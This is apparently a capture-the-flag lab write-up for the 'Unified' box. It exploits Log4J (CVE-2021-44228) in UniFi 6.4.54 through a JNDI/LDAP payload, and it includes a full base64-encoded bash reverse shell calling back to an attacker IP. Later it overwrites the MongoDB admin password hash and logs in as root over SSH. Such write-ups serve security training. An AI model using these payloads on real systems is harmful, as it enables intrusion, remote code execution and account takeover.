# Writeups

**Source PDF:** `raw-logs/document.pdf`

## TL;DR

Unified Write-up Prepared by: pwninx Introduction

## Extracted walkthrough

### Page 1

```
Unified Write-up

Prepared by: pwninx
Introduction

This writeup explores the effects of exploiting Log4J in a very well known network appliance monitoring 
system called "UniFi". This box will show you how to set up and install the necessary packages and tools to 
exploit UniFi by abusing the Log4J vulnerability and manipulate a POST header called remember , giving you 
a reverse shell on the machine. You'll also change the administrator's password by altering the hash saved 
in the MongoDB instance that is running on the system, which will allow access to the administration panel 
and leads to the disclosure of the administrator's SSH password.
Enumeration

The first step is to scan the target IP address with Nmap to check what ports are open. We'll do this with the 
help of a program called Nmap. Here is a quick explanation of what each flag is and what it does. 
-sC: Performs a script scan using the default set of scripts. It is equivalent to --
script=default.
-sV: Version detection
-v: Increases the verbosity level, causing Nmap to print more information about the 
scan in progress.
```


### Page 2

```
The scan reveals port 8080  open running an HTTP proxy. The proxy appears to redirect requests to port 
8443 , which seems to be running an SSL web server. We take note that the HTTP title of the page on port 
8443 is " UniFi Network ".

Upon accessing the page using a browser we are presented with the UniFi  web portal login page and the 
version number is 6.4.54 . If we ever come across a version number it’s always a great idea to research that 
particular version on Google. A quick Google search using the keywords UniFy 6.4.54 exploit  reveals an 
article that discusses the in-depth exploitation of the CVE-2021-44228 vulnerability within this application.
If you would like to learn more about the Log4J vulnerability we have a great Blog post about it.
```




### Page 3

```
This Log4J vulnerability can be exploited by injecting operating system commands (OS Command Injection), 
which is a web security vulnerability that allows an attacker to execute arbitrary operating system 
commands on the server that is running the application and typically fully compromise the application and 
all its data.
To determine if this is the case, we can use FoxyProxy  after making a POST request to the /api/login  
endpoint, to pass on the request to BurpSuite, which will intercept it as a middle-man. The request can then 
be edited to inject commands. We provide a great module based around intercepting web requests. 
Intercepting Web Requests
```







### Page 4

```
First, we attempt to login to the page with the credentials test:test  as we aren’t trying to validate or gain 
access. The login request will be captured by BurpSuite and we will be able to modify it.
Before we modify the request, let's send this HTTPS packet to the Repeater   module of BurpSuite by 
pressing CTRL+R . 
Exploitation

The Exploitation section of the previously mentioned article mentions that we have to input our payload into 
the remember  parameter. Because the POST data is being sent as a JSON object and because the payload 
contains brackets {} , in order to prevent it from being parsed as another JSON object we enclose it inside 
brackets "  so that it is parsed as a string instead.
We input the payload into the remember  field as shown above so that we can identify an injection point if 
one exists. If the request causes the server to connect back to us, then we have verified that the application 
is vulnerable.
JNDI is the acronym for the Java Naming and Directory Interface API . By making calls to this API, 
applications locate resources and other program objects. A resource is a program object that provides 
connections to systems, such as database servers and messaging systems.
LDAP is the acronym for Lightweight Directory Access Protocol , which is an open, vendor-neutral, 
industry standard application protocol for accessing and maintaining distributed directory information 
services over the Internet or a Network. The default port that LDAP runs on is port 389 . 

${jndi:ldap://{Tun0 IP Address}/whatever}
```




### Page 5

```
After we hit "send" the "Response" pane will display the response from the request. The output shows us an 
error message stating that the payload is invalid, but despite the error message the payload is actually being 
executed.
Let's proceed to starting tcpdump  on port 389 , which will monitor the network traffic for LDAP 
connections.
Open up another terminal and type:
The above syntax can be broken down as follows.
After tcpdump has been started, click the Send button.
tcpdump is a data-network packet analyzer computer program that runs under a command 
line interface. It allows the user to display TCP/IP and other packets being 
transmitted or received over a network to which the computer is attached.
sudo tcpdump -i tun0 port 389
sudo:     Run this via root also known as admin.
tcpdump:  Is the program or software that is Wireshark except, it's a command line 
version.
-i:     Selecting interface. (Example eth0, wlan, tun0) 
port 389: Selecting the port we are listening on.
```





### Page 6

```
The tcpdump output shows a connection being received on our machine. This proves that the application is 
indeed vulnerable since it is trying to connect back to us on the LDAP port 389.
We will have to install Open-JDK  and Maven  on our system in order to build a payload that we can send to 
the server and will give us Remote Code Execution on the vulnerable system.
Open-JDK is the Java Development kit, which is used to build Java applications. Maven on the other hand is 
an Integrated Development Environment (IDE) that can be used to create a structured project and compile 
our projects into jar  files .
These applications will also help us run the rogue-jndi  Java application, which starts a local LDAP server 
and allows us to receive connections back from the vulnerable server and execute malicious code.
Once we have installed Open-JDK, we can proceed to install Maven. But first, let’s switch to root user.
sudo apt-get install maven
```








### Page 7

```
After the installation has completed we can check the version of Maven as follows.
Once we have installed the required packages, we now need to download and build the Rogue-JNDI   Java 
application.
Let's clone the respective repository and build the package using Maven.
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```




### Page 8

```
This will create a .jar  file in rogue-jndi/target/  directory called RogueJndi-1.1.jar . Now we can 
construct our payload to pass into the RogueJndi-1-1.jar  Java application.
To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for 
giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding 
issues.
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | 
base64
```





### Page 9

```
Note: For this walkthrough we will be using port 4444 to receive the shell.
After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of 
the --command  option and your tun0  IP address to the --hostname  option.
For example:
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|
{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
java -jar target/RogueJndi-1.1.jar --command "bash -c 
{echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzMvNDQ0NCAwPiYxCg==}|{base64,-
d}|{bash,-i}" --hostname "10.10.14.33"
```




### Page 10

```
Now that the server is listening locally on port 389 , let's open another terminal and start a Netcat listener to 
capture the reverse shell.
Going back to our intercepted POST request, let's change the payload to
 ${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}  and click Send .
nc -lvp 4444
```




### Page 11

```
After sending the request, a connection to our rogue server  is received and the following message is shown.
Once we receive the output from the Rogue server, a shell spawns on our Netcat listener and we can 
upgrade the terminal shell using the following command.
The above command will turn our shell into an interactive shell that will allow us to interact with the system 
more effectively.
From here we can navigate to /home/Michael/  and read the user flag.
Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
script /dev/null -c bash
```








### Page 12

```
Privilege Escalation

The article states we can get access to the administrator panel of the UniFi  application and possibly extract 
SSH secrets used between the appliances. First let's check if MongoDB is running on the target system, 
which might make it possible for us to extract credentials in order to login to the administrative panel.
We can see MongoDB  is running on the target system on port 27117 . 
Let's interact with the MongoDB service by making use of the mongo  command line utility and attempting to 
extract the administrator password. A quick Google search using the keywords UniFi Default Database  
shows that the default database name for the UniFi application is ace .
If you aren't sure what each flag does, here is a break down. 
ps aux | grep mongo
MongoDB is a source-available cross-platform document-oriented database program. 
Classified as a NoSQL database program, MongoDB uses JSON-like documents with optional 
schemas.
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`
```






### Page 13

```
The output reveals a user called Administrator. Their password hash is located in the x_shadow  variable but 
in this instance it cannot be cracked with any password cracking utilities. Instead we can change the 
x_shadow  password hash with our very own created hash in order to replace the administrators password 
and authenticate to the administrative panel. To do this we can use the mkpasswd  command line utility.
The $6$  is the identifier for the hashing algorithm that is being used, which is SHA-512 in this case, 
therefore we will have to make a hash of the same type.
Once we've generated the SHA-512 hash the output will look similar to the one above, however due to the 
salt the hash will change every time it is generated.
Let's proceed to replacing the existing hash with the one we created.
mkpasswd -m sha-512 Password1234
$6$sbnjIZBtmRds.L/E$fEKZhosqeHykiVWT1IBGju43WdVdDauv5RsvIPifi32CC2TTNU8kHOd2ToaW8fIX7XX
M8P5Z8j4NB1gJGTONl1
SHA-512, or Secure Hash Algorithm 512, is a hashing algorithm used to convert text of 
any length into a fixed-size string. Each output produces a SHA-512 length of 512 bits 
(64 bytes). This algorithm is commonly used for email addresses hashing, password 
hashing...
A salt is added to the hashing process to force their uniqueness, increase their 
complexity without increasing user requirements, and to mitigate password attacks like 
hash tables.
mongo --port 27117 ace --eval 'db.admin.update({"_id": 
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```


### Page 14

```
We can verify that the password has been updated in the Mongo database by running the same command 
as above. The SHA-512 hash appears to have been updated. 
Let's now visit the website and log in as administrator . It is very important to note that the username is 
case sensitive.
The authentication process was successful and we now have administrative access to the UniFi application.
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```


### Page 15

```
UniFi offers a setting for SSH Authentication, which is a functionality that allows you to administer other 
Access Points over SSH from a console or terminal.
Navigate to settings -> site  and scroll down to find the SSH Authentication setting. SSH authentication 
with a root password has been enabled.
The page shows the root password in plaintext is NotACrackablePassword4U2022 . Let's attempt to 
authenticate to the system as root over SSH.
The connection is successful and the root flag can be found in /root .
Congratulations, you have finished the Unified box.
ssh root@10.129.96.149
```




---

Generated by tools/convert_pdf_to_md.py — review & redact sensitive info before publishing.
